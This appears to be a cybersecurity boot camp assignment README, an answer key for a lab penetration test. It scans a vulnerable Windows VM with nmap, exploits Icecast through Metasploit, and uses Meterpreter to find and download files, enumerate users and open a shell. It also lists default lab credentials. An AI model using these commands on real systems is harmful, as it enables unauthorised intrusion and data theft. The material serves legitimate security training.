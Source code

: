 <img align="left" width="100" height="100" src="https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/PenTestIcon.png" alt="hacker icon">

### Penetration Test Engagement Report

#### Lab Environment
 
| Credentials | Username | Password |
|----------|----------|------------|
| **Kali Linux VM** | root | toor |
| **DVW10 VM** | IEUser | Passw0rd! |
 

**NOTE**: We need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- Now we ready to begin the activity.

---

We've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > **ANS:** `nmap -sS -sV -O 192.168.0.20`  
       
![1](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/1.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > **ANS:** `searchsploit icecast`  
  
![2](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/2.png)


3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > **ANS:** `msfconsole` 
 
![3](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/3.png)


4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > **ANS:** `search icecast`  
  
![4](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/4.png)


   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > **ANS:** `use 0`  
        
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > **ANS:** `set RHOST 192.168.0.20`  

 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > **ANS:** `run`

![5](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/5.png) 

  
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > **ANS:** `search -f *secretfile*.txt`  
  
![6](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/6.png) 

  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > **ANS:** `search -f *recipe*.txt`  
 
![7](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/7.png) 

 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:

      > **ANS:** `download ‘c:\Users\IEUser\Documents\Drinks.recipe.txt’`  
      
![8](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/8.png)
![9](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/9.png)
 
8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.
   
      > **ANS:** `run post/multi/recon/local_exploit_suggester`    

![10](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/10.png)

### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

  > **ANS:** `run post/windows/gather/enum_logged_on_users`    

![11](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/11.png)

     
B. Open a Meterpreter shell and gather system information for the target.
 
  > **ANS:** 
  
  > `shell`  
  > `systeminfo`

![12](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/12.png)
![13](https://github.com/Diablo5G/UTA-CYBER-2021-ASSIGNMENT/blob/Master/Offensive%20Security%20Unit/17-Penetration%20Test%20Engagement/Resources/Images/13.png)
 
C. Run the command that displays the target's computer system information:

   > **ANS:** `sysinfo`    

---
___

 - Full Penetration Test Engagement Report available at [Report_10152021](Resources/Report.docx)

---
___



### Citations and References:

#### General Resources:

- Rbcafe. 2020 Google Dorking List. © 2021 Google Dorking.com [cited 2021 October 08]. Available from:[Google Dorking](http://www.google-dorking.com/2021/10/2020-google-dorking-list.html). 
- vsftpd 2.3.4 - Backdoor Command Execution (Metasploit). © OffSec Services Limited 2021. [cited 2021 October 08]. Available from: [Metasploit](https://www.exploit-db.com/exploits/17491).
- Reduce the Risk of Ransomware Awareness Campaign. CYBERSECURITY & INFRASTRUCTURE SECURITY AGENCY (CISA). © 2021 CISA.com [cited 2021 October 08]. Available from:[SMB vulnerabilities](https://www.cisa.gov/sites/default/files/publications/Fact%20sheet_Ransomware%20Awareness%20Campaign_20210119_508.pdf)
- CVE-2011-2523. Red Hat Security. © 2021 Red Hat, Inc. [cited 2021 October 08]. Available from:[CVE-2011-2523](https://access.redhat.com/security/cve/cve-2011-2523)
- Microsoft Security Bulletin MS17-010 - Critical. Security Update for Microsoft Windows SMB Server (4013389). © Microsoft 2021. [cited 2021 October 08]. Available from:[MS17-010 - Critical](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010). 


#### Penetration Testing Documentation:
- [Google Dorking Cheat Sheet](https://gist.github.com/sundowndev/283efaddbcf896ab405488330d1bbc06.js)
- [Recon-ng 5.1 Cheat Sheet](https://www.blackhillsinfosec.com/wp-content/uploads/2019/11/recon-ng-5.x-cheat-sheet-Sheet1-1.pdf)
- [Shodan Cheat Sheet](https://thedarksource.com/shodan-cheat-sheet/)
- [Zenmap Cheat Sheet](https://cs.lewisu.edu/~klumpra/camssem2015/nmapcheatsheet1.pdf)


#### Special thanks:
© Trilogy Education Services, a 2U, Inc., Instructor Jerry and TAs; Matt, Jansen, Micheal.

© The University of Texas at Austin Boot Camp, The Cybersecurity program.

---  
